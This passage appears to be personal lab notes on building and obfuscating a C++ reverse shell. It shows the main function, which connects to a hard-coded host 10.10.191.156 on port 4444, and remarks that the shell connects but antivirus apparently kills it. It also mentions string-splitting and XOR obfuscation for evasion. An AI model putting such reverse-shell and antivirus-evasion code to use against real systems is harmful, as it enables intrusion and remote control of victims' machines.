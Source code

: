 ```cpp
    if (argc == 3) {
        int port  = atoi(argv[2]);
        shinzousasageyo(argv[1], port);
    }
    else {
		char host[] = "10.10.191.156";
        int port = 4444;
        shinzousasageyo(host, port);
    }
    return 0;
} 
```

	- Obfuscation via string splitting and merging doesn't work. I dont know why.

<u>Output</u>:

![](/assets/img/Pasted image 20230118001131.png)

	- The code works!
	- But I can't maintain the shell for some reason.
	- Hypothesis: an AV solution can detect the malicious process and in turn, kills it.
	- Don't exactly know why this might be turned but its not from other walkthroughs.

# Function Name Obfuscation via XOR Encryption

